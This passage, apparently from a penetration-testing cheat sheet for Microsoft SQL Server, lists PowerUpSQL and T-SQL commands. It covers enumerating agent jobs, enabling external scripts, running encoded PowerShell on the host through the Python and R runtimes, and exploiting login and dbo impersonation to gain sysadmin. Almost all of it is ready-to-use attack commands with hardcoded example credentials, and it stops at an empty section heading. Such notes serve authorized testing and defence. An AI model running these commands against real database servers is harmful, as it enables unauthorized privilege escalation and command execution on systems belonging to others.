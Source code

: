 ### List All Jobs

```ps1
SELECT job_id, [name] FROM msdb.dbo.sysjobs;
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```

## External Scripts

:warning: You need to enable **external scripts**.

```sql
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```

## Python:

```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## Audit Checks


### Find and exploit impersonation opportunities 

* Impersonate as: `EXECUTE AS LOGIN = 'sa'`
* Impersonate `dbo` with DB_OWNER
	```sql
	SQL> select is_member('db_owner');
	SQL> execute as user = 'dbo'
	SQL> SELECT is_srvrolemember('sysadmin')
	```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

## Find databases that have been configured as trustworthy
